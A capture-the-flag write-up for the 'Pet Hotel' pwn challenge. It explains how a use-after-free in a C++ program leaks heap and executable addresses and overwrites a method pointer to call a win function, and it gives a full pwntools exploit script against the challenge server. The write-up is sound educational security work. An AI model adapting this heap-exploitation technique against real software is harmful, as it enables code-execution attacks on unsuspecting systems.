




### Exploiting a use after free vulnerability to leak and call win.
#### Cyberlandslaget pwn Pet Hotel

Using a UAF in C++ to leak heap, executable and overwrite a function to control program execution.
<!-- more -->

This was the most exciting challenge I solved during the semi finals. It had 11 total solves at the end, and took me a couple of days. We were provided with the challenge executable, the C++ code and the Dockerfile. As mentioned the C++ code contains a UAF vulnerability that we will take advantage of.

{}

Unlike in C, C++ lets us create classes with methods. We can see that in this particular case the interesting classes are the Animal, Cat and Dog classes, where cat and dog are subclasses, each containing a `GetSpecies()` method returning either cat or dog. We also notice that the rooms are initialized with the Animal class as their type, which is odd. 

The goal of the challenge is fairly obviously to call the win function in the program. To do this we have to control program execution somehow, so we should start looking for vulnerabilities. We see that when we register data for an animal, there is a malloc call for the size we specify, so this is likely a heap challenge. It turns out the animals (or rooms) are stored on the heap as well when created. Each animal contains the size of its data and a pointer to where that data is stored. When an animal is deleted the heap chunk containing the data is freed, however the data pointer of the animal is not nulled out. This creates a use after free vulnerability because we can view the data of a room using the data pointer even though that data has been freed and should not exist anymore.

At this point I wasn't sure exactly how to take advantage of the discovered vulnerability, so I started messing around with the executable in gdb. After checking in an animal in room 0 and 1 and registering some data for room 0, the heap looks like this (I found the correct address to inspect with the `heap` command in pwndbg):



We can see the three allocated chunks clearly, each starting with 0x21 (0x20 for the size of the chunk, and 1 to signify that the previous chunk is in use, if I remember correctly). The first two are animal chunks. The first one contains a pointer to somewhere in the executable and a pointer to the third chunk we can see (the data belonging to that animal). The second chunk contains a pointer to somewhere in the executable, but no data pointer as we have not registered any data in room 1 yet. The next thing I did was to inspect the executable address in the first chunk.



We can see that it references the class it belongs to (in this case Cat), specifically the address of the GetSpecies method. This is used by the code in the `ViewRoom()` function. Keep in mind that the animal entry contains a pointer to the address of `GetSpecies`. All of this means that if we manage to overwrite the pointer to the address of `GetSpecies` with a pointer to the address of `win` we win.

Another important thing to notice is the size of the chunk we created with our registered data was the same size as the animal chunks when we only asked for 10 bytes of data. This is very good, because the way the heap works is that when it is going to allocate fast bins, it first looks for an unused bin with the correct size before creating a new one. We can take advantage of this by registering a data chunk to room 0 (after first creating room 0), freeing that chunk and checking in a new animal (creating a new animal chunk). Assuming the data chunk was 0x20 bytes big, the new animal should be stored where the data of the animal in room 0 used to be. If we then write data to the animal in room 0 again, it still has the same data pointer so it will overwrite whatever is stored in the animal chunk we created last, including the `GetSpecies` pointer.

Now we just need to know what to overwrite it with. As PIE is enabled we will need to leak some addresses, both heap and executable. We can attempt to this by creating rooms over the freed data chunk of another room and viewing that other room. After some trial and error i discovered that the following code leaks both heap and executable (you can do the same manually or scroll to the bottom and copy the functions i created):

```py
log.info("Checking a cat into room 0 and a dog into room 1")
CheckIn(0,1)
CheckIn(1,2)

log.info("Placing 8 A's in room 0 and 8 B's in room 1")
RegisterNewData(0, 10, "A"*8) 
RegisterNewData(1, 10, "B"*8)

log.info("Deleting data from room 0 and 1")
DeleteRoom(0)
DeleteRoom(1)

log.info("Checking cat into room 7")
CheckIn(7, 1)

ViewRoom(0) 
p.recvuntil(b"We have registered the following data on the guest:")
p.recvline()
leak = u64(p.recvline()[:8].strip().ljust(8,b"\x00"))
heap_leak = hex(leak) + "ef0" # I will explain this

log.success(f"heap: {heap_leak}")

log.info("Checking dog into room 7")
CheckIn(7, 2) 

ViewRoom(0) 
p.recvuntil(b"We have registered the following data on the guest:")
p.recvline()
func_leak = u64(p.recvline()[:8].strip().ljust(8,b"\x00"))
log.success(f"get species: {hex(func_leak)=}")
```



I confirmed through vmmap that these are indeed executable and heap addresses, so we have a succesful leak! The '+ "ef0"' is there because I kept leaking an incomplete heap address. However, I realised the 3 missing nibbles were the same every time so I added them manually. These might be different if you don't do exactly what I did, so I recommend double checking that they are correct for you. The address should match the data pointer of room 0. We can now try the overwrite we planned before, after calculating the offset between win and our executable link.

The reason we leaked heap is that the program expects a pointer to the address of win, so what we will do is place a pointer to the data of our second room in the data of our first room, place the win address in the data of the second room, and view the first room. This should call the `win` function and give us the flag. Adding the following python code does this and succesfully gets a flag:

```py
win = func_leak - 0x299f
log.success(f"win: {hex(win)}")

log.info("Change data of room 0 to point to data of room 1")
RegisterAddressData(0, p64(int(heap_leak,16)+0x20))

log.info("Change data of room 1 to win func")
RegisterAddressData(1, p64(win))

log.info("Display room 7 to call win and get flag")
ViewRoom(7)
```



## Full Exploit:
```py
from pwn import *

# p = process("./pethotel")
# gdb.attach(p)

p = remote("pwn.toys", 30013)

def CheckIn(room, species):
    p.recvuntil(b">")
    p.sendline(b"1")

    p.recvuntil(b">")
    p.sendline(f"{room}".encode())

    p.recvuntil(b">")
    p.sendline(f"{species}".encode())

def RegisterNewData(room, length, data):
    p.recvuntil(b">")
    p.sendline(b"2")

    p.recvuntil(b">")
    p.sendline(f"{room}".encode())

    p.recvuntil(b">")
    p.sendline(f"{length}".encode())

    p.recvuntil(b">")
    p.sendline(f"{data}".encode())


def DeleteRoom(room):
    p.recvuntil(b">")
    p.sendline(b"4")

    p.recvuntil(b">")
    p.sendline(f"{room}".encode())

def ViewRoom(room):
    p.recvuntil(b">") 
    p.sendline(b"3")

    p.recvuntil(b">")
    p.sendline(f"{room}".encode())

def RegisterAddressData(room, address):
    p.recvuntil(b">")
    p.sendline(b"2")

    p.recvuntil(b">")
    p.sendline(f"{room}".encode())

    p.recvuntil(b">")
    p.sendline(address)

log.info("Checking a cat into room 0 and a dog into room 1")
CheckIn(0,1)
CheckIn(1,2)

log.info("Placing 8 A's in room 0 and 8 B's in room 1")
RegisterNewData(0, 10, "A"*8) #creating small chunks to be the same size as the animal chunks
RegisterNewData(1, 10, "B"*8)

log.info("Deleting data from room 0 and 1")
DeleteRoom(0)
DeleteRoom(1)

log.info("Checking cat into room 7")
CheckIn(7, 1)

ViewRoom(0) # Leak heap address of room 7 through data of room 0
p.recvuntil(b"We have registered the following data on the guest:")
p.recvline()
leak = u64(p.recvline()[:8].strip().ljust(8,b"\x00"))
heap_leak = hex(leak) + "ef0" # eh... sure ¯\_(ツ)_/¯, thx gdb

log.success(f"heap: {heap_leak}")

log.info("Checking dog into room 7")
CheckIn(7, 2) 

ViewRoom(0) # Leak get species address of room 7 through data of room 0
p.recvuntil(b"We have registered the following data on the guest:")
p.recvline()
func_leak = u64(p.recvline()[:8].strip().ljust(8,b"\x00"))
log.success(f"get species: {hex(func_leak)=}")

win = func_leak - 0x299f
log.success(f"win: {hex(win)}")

log.info("Change data of room 0 to point to data of room 1")
RegisterAddressData(0, p64(int(heap_leak,16)+0x20))

log.info("Change data of room 1 to win func")
RegisterAddressData(1, p64(win))

log.info("Display room 7 to call win and get flag")
ViewRoom(7)

p.interactive()
```


